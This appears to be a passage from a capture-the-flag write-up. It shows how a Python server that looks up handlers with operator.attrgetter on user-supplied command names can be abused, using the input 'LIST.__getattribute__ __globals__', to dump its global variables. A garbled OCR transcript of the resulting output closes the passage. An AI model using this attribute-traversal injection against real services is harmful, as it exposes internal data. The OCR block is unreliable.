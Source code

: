 Hmmm this lines of code was interesting.

```py
func=operator.attrgetter(cmd)(self)
msg = func(args)
```

For example when we input something like this

```
RETR pwn
```

It will find a method / function named `RETR` and it will assigned to `func`. `func(args)` is then called with the `args` variable as its argument.

And then I got the idea to print all the global variable by calling `__getattribute__` method and then print the `__globals__` value like this

```
LIST.__getattribute__ __globals__
```


[Image extracted text: Z20
VSFpa
Lv2
4)
reauy
LIST
getattribute_
~globals_
{'
name
main__
doc_
None
~package__
None
loader_
froz
object
at Ox78abfboabcl0>
~spec_
None
annotations_
{}
builtins_
file_
Ichal/pwn
cached__
None
05
<module
05
from
/lib/python3
10
lt-in)>
operator
<module
operator
from
Ilib/python3. 10/operator.py
sys
lete
False
local_ip